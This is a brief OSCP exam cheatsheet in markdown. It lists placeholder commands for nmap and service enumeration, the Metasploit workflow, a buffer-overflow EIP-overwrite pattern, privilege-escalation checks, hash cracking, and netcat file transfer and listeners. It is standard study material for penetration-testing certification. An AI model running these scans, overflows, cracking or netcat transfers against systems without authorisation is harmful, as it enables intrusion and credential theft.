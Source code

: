 # OSCP Cheatsheet

## Reconnaissance

### Network Enumeration

#### Nmap Commands

- Basic scan: `nmap <target>`
- All ports scan: `nmap -p- <target>`
- Service version detection: `nmap -sV <target>`
- Operating system detection: `nmap -O <target>`
- UDP scan: `nmap -sU <target>`

#### FTP Enumeration



### Other Tools

- DNS enumeration: `dnsenum <target>`
- SMTP enumeration: `smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t <target>`
- SNMP enumeration: `onesixtyone -c /usr/share/doc/onesixtyone/dict.txt <target>`

## Exploitation

### Metasploit Commands

- Search for exploit: `search <exploit>`
- Use exploit: `use <exploit>`
- Set target IP: `set RHOST <target>`
- Set payload: `set PAYLOAD <payload>`
- Show options: `show options`
- Run exploit: `exploit`

### Buffer Overflow

- Fuzzing: `msf-pattern_create -l <length>`
- Finding offset: `msf-pattern_offset -q <EIP value>`
- Overwriting EIP: `"\x41" * <offset> + <EIP value> + "\x43" * (<buffer length> - <offset> - 4)`

## Post-Exploitation

### Privilege Escalation

- Linux: `sudo -l`
- Windows: `whoami /priv`

### Password Cracking

- John the Ripper: `john --wordlist=/usr/share/wordlists/rockyou.txt <hashfile>`
- Hashcat: `hashcat -m <hash mode> <hashfile> <wordlist>`

## Miscellaneous

### Useful Commands

- Download file: `wget <URL>`
- Transfer file: `nc -nv <listening IP> <port> < file`
- Create listener: `nc -nlvp <port>`
